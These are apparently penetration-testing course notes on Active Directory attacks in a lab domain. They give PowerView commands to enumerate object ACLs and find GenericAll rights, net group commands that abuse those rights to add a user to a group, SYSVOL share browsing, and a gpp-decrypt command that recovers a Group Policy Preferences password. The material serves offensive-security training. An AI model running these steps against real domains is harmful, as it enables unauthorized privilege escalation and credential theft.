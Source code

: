get users ACE objects
```
Get-ObjectAcl -Identity stephanie
```

we're looking fr ObjectSID, ActiveDirectoryRights, and SecurityIdentifier

we need to convert these into human readable names
```
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
```
n short, we are interested in the ActiveDirectoryRights and SecurityIdentifier for each object we enumerate going forward.

GenericAll is the most permissive.  To search for it
```
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights`
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

add user to group
```
net group "Management Department" stephanie /add /domain
Get-NetGroup "Management Department" | select member
```

can later delete from group
```
net group "Management Department" stephanie /del /domain
Get-NetGroup "Management Department" | select member
```

### Enumerating Domain Shares
list all shares
```
Find-DomainShare
```

In this instance, we'll first focus on SYSVOL,1 as it may include files and folders that reside on the domain controller itself. This particular share is typically used for various domain policies and scripts. By default, the SYSVOL folder is mapped to %SystemRoot%\SYSVOL\Sysvol\domain-name on the domain controller and every domain user has access to it.

```
ls \\dc1.corp.com\sysvol\corp.com\
ls \\dc1.corp.com\sysvol\corp.com\Policies\
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```

can use gpp-decrypt to decrypt AD gpp passwords
```
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

## Automated Enumeration
### SharpHound
